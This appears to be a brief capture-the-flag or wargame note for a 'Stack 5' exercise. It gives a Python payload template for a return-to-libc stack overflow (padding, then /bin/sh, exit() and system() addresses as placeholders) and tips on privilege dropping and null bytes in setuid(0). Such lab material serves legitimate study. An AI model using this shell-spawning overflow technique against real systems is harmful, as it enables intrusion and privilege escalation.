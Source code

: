 #Stack 5 

```
python -c 'print "A" * 80 + "/bin/sh in env variable" + "DUM VARIABLE OR address of exit()" + "system address"
```

This will spwan the shell and exit since it drops the privilege. To get around you can use execl.

Note:
* for 0 to set uid, you can not wirte nullbyte so you have to figure out the other way.
